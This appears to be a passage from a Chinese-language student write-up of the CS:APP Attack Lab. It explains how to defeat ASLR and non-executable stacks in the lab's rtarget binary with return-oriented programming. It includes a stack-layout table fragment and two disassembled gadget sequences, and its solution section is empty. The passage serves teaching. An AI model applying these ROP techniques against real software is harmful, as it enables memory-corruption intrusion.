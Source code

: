 | 0x5561dc78 | 0xc3 | 0x55 | 0x61 | 0xdc | 0x80 | 0xc7 | 0xc7 | 0x48 | mov $0x5561dc80,%rdi; ret       |
| ...        |      |      |      |      |      |      |      |      |                                 |
| 0x5561dc08 |      |      |      |      |      |      |      |      | %rsp after hexmatch+4           |


## Phase 4

Phase 4需要重复Phase 2的攻击，但是rtarget使用了两重防护:

- `ASLR`随机栈地址
- `No eXecute`标志禁用栈地址段的执行权限

因此代码注入攻击不再起作用，需要使用ROP攻击。解题思路是：

- 我们可以在栈上放cookie的值
- 从栈上把这个值pop到某个寄存器中
- 最终把这个寄存器中的值传入%rdi作为第一个参数，然后调用touch2

经过对代码的分析，我们找到了两个可用的`gadget`

### Gadgets 1

```asm
00000000004019a7 <addval_219>:
  4019a7:       8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
  4019ad:       c3                      retq

```

其中`0x4019ab`开始的`58 90 c3`可以解释为以下汇编语句

```
   0:   58                      pop    %rax
   1:   90                      nop
   2:   c3                      retq   
```

### Gadgets 2

```
00000000004019c3 <setval_426>:
  4019c3:       c7 07 48 89 c7 90       movl   $0x90c78948,(%rdi)
  4019c9:       c3                      retq   
```

`0x4019c5`开始的`48 89 c7 90 c3`可以解释为以下汇编语句

```
   3:   48 89 c7                mov    %rax,%rdi
   6:   90                      nop
   7:   c3                      retq   
```

### Solution
